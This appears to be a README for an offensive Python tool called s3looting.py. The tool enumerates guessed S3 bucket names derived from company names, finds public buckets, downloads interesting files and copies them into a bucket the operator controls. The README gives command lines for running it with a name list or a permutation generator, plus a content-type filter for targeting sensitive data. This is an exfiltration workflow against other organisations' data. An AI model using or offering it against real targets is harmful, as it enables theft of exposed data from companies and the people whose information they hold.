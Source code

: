 # AWS S3 Bucket Looting

Enumerate over a bucket name list, searching for public buckets, download any interesting content and upload it to an S3 bucket under your control. Either specify the list to enumerate over through flag or pipe it in.

```
python3 s3looting.py -list company_names.txt -bucket mysup3rs3cretbuck3t

python3 generate-permuations {company_name} | python3 s3looting.py -bucket mysup3rs3cretbuck3t
```

If you are looking for something specific, supply a content types list with the `-content` flag. You can find the complete list of types that Macie can assign to objects [here](https://docs.aws.amazon.com/macie/latest/userguide/macie-classify-objects-content-type.html)
